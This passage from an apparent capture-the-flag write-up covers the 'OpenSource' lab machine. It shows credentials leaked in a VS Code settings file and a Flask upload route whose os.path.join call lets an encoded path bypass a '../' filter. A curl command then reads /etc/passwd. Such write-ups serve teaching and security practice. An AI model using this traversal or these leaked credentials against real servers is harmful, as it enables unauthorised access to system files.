 `dev01:Soulless_Developer#2022`
```json
{
  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
  "http.proxyStrictSSL": false
}
```
Found in .vscode/settings.json
commit: a76f8f75f7a4a12b706b0cf9c983796fa1985820
In the dev branch.

## Testing for local file inclusion (LFI)
* Uploading a file stores it in `/uploads/{FILE}`
* Tried navigating to `/uploads/../../../../etc/passwd` but it gets filtered

Since we have the source code we can see how it is being filtered.
```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
This function sanitizes the file name from the users post request (uploading a file).

We can see that it only filters `../`

And if we check out how the path is constructed in `views.py`. We see that it just uses `os.path.join()`

```python
@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name) # Vulnerable line
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```
And that is vulnerable because, if we looked at how `os.path.join()` works
![path vuln](/images/HTB-opensource/os_path_vuln.png)

We can see that if we add a `/` to any argument it will ignore all the arguments that came before and start from the argument that starts with `/`.

So that means we could control the file path and bypass the LFI filter by just adding a `/` making it an absolute path.
```shell
curl http://opensource.htb/uploads/..%2f%2fetc/passwd
```
![passwd](/images/HTB-opensource/etc-passwd.png)

This does return `/etc/passwd` from the target machine.
